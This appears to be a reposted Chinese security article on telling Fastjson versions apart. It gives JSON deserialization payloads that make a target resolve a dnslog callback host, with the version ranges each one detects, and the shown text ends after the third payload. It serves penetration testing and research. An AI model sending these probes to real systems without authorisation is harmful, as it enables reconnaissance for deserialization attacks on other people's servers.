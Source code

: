 #  精选3：Fastjson反序列化漏洞区分版本号的方法大集合  
abc123info  希潭实验室   2025-07-22 00:33  
  
 Part1 前言   
  
大家好，我是ABC_123  
。欢迎大家关注公众号"希水涵精选录"。  
"希潭实验室"是ABC_123运营的第一个公众号，只发ABC_123本人的原创技术文章；  
而  
"希水涵精选录  
"  
是ABC_123运营的第二个公众号，  
专注于转载精心筛选的高质量技术文章  
。  
ABC_123会从海量的技术文章中摘出精品，  
把真正有价值、有干货的内容推荐给大家  
，同时也欢迎大家积极投稿给我，  
一起把好文章分享给更多人！  
  
转载声明：  
此篇文章的原创作者是f0ng，在此感谢。作者的公众号如下：  
  
  
每次测试遇到fastjson无法定位版本，部分文章里的payload也没有准确的版本范围，抽空对payload做了个测试，这里记录下  
使用常见的payload对fastjson版本进行测试，方便遇到fastjson进行较小范围的版本判断。本篇文章记录下常见的payload对于一些版本的判断测试。  
##   
##  Part2 通过dnslog判断版本   
  
测试的一切payload均采用fastjson的默认配置，本次测试只用到了com.alibaba.fastjson.JSON.parse()  
函数。  
  
#### 测试语句1：【fastjson>=1.2.37】  
```
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://§1§.{{URL}}"}}""}
```  
#### 实验结论：可用范围1.2.37-1.2.83，即fastjson版本>=1.2.37；不可用版本1.2.1-1.2.36。  
  
  
测试语句2：  
【fastjson>=1.2.37】  
```
{{"@type":"java.net.URL","val":"http://§1§.{{URL}}"}:0
```  
  
实验结论：  
可用范围1.2.37  
-1.2.83  
，即fastjson版本>=1.2.37；不可用版本1.2.1-1.2.36。  
  
  
测试语句3：【fastjson>=1.2.9】  
```
Set[{"@type":"java.net.URL","val":"http://§1§.{{URL}}"}]
```  
  